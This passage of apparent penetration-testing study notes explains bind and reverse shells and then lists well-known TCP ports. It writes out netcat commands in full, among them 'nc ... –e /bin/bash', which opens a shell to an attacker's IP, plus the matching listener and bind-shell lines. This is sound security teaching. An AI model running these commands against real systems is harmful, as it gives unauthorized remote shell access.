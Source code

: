 ![Bind and Reverse Shell](bindreverse.png)

The "netcat" utility can be used to establish this shells. 

To create a reverse shell with netcat, we would use this commands: 
```bash
#on the attacker machine we set up the listener on port 4444
nc –lvp 4444

#on the victim machine, we stablish the conection with the attacher ip and port 4444,  redirecting /bin/bash to that port
nc 192.168.100.113 4444 –e /bin/bash
```

However, for creating a bind shell, the commands are different: 
```bash
#on the victim machine we set up the listener on port 4444
nc -lvp 4444 -e /bin/bash

#on the attacker machine, we establish a connection with the victim's ip and the port 4444
nc 192.168.1.2 4444
```

Here is a list of well known TCP ports and the protocols/applications they run. 

| Port | Protocol | Description |
|------|----------|-------------|
| 21   | FTP      | File Transfer Protocol |
| 22   | SSH/SFTP | Secure Shell/FTP over SSH |
| 23   | TELNET   | Telnet - an unsecure remote administration interface |
| 25   | SMTP     | Simple Mail Transfer Protocol |
| 53   | DNS      | Domain Name System uses TCP for zone transfers |
| 80   | HTTP     | HyperText Transfer Protocol |
| 110  | POP3     | Post Office Protocol is a legacy mailbox access protocol |
| 111  | RPCBIND  | Maps Remote Procedure Call (RPC) services to port numbers in a UNIX-like environment |
| 135  | MSRPC    | Advertises what RPC services are available in a Windows environment |
| 139  | NETBIOS-SSN | NetBIOS Session Service supports Windows File Sharing with pre-Windows 2000 version hosts |
| 143  | IMAP     | Internet Mail Access Protocol |
| 443  | HTTPS    | HyperText Transfer Protocol Secure |
| 445  | MICROSOFT-DS | Supports Windows File Sharing (Server Message Block over TCP/IP) on current Windows networks |
| 993  | IMAPS    | Internet Mail Access Protocol Secure |
| 995  | POP3S    | Post Office Protocol Secure |
| 1723 | PPTP     | Point-to-Point Tunneling Protocol is a legacy VPN protocol with weak security implementation |
| 3306 | MySQL    | MySQL database connection |
| 3389 | RDP      | Remote Desktop Protocol |
| 5900 | VNC      | Virtual Network Computing remote access service where security is implementation dependent and VNC may use other ports |
| 8080 | HTTP-PROXY | HTTP Proxy Service or alternate port for HTTP |
